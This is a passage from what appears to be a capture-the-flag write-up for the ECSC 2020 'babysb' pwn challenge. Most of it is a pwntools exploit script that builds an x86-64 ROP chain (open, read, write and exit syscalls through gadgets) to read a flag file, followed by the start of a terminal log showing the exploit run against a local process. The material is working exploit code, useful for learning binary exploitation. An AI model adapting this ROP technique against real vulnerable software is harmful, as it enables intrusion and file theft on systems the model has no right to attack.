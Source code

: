 ```python
   syscall += base

   pop_rdx = base + 0xec7ed   # pop rdx; ret;

   # Junks for some pop up registers
   payload += p64(0xdeadb00b) 
   payload += p64(0xdeadbeef)  
   payload += p64(0xb00bd00d)
   payload += p64(0x69)
   payload += p64(0x6969)

   # Syscall for OPEN
   # There was a pop r15 at pop_rsi
   payload += p64(pop_rdi)
   payload += p64(0x2)
   payload += p64(pop_rsi)
   payload += p64(bss_start)
   payload += p64(0)          # pop r15
   payload += p64(pop_rdx)
   payload += p64(0)
   payload += p64(syscall)

   # READ
   payload += p64(pop_rdi)
   payload += p64(0x3)        # read from file
   payload += p64(pop_rsi)
   payload += p64(bss_start)
   payload += p64(0)          # pop r15 
   payload += p64(pop_rdx)
   payload += p64(0x30)
   payload += p64(read_plt)

   # WRITE
   payload += p64(pop_rdi)
   payload += p64(0x1)
   payload += p64(pop_rsi)
   payload += p64(bss_start)
   payload += p64(0)          # pop r15
   payload += p64(pop_rdx)
   payload += p64(0x30)
   payload += p64(write_plt)

   # EXIT like a sir
   payload += p64(pop_rdi)
   payload += p64(1)
   payload += p64(exit_plt)

   # Get flag
   r.send(payload)
   flag = r.recvuntil('}')
   log.success(flag.decode())

pwn()

```
```sh
w3th4nds@void:~/ctfs/ecsc2020_quals/pwn$ ./exp.py 
[+] Starting local process './babysb': pid 3950
[*] '/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
```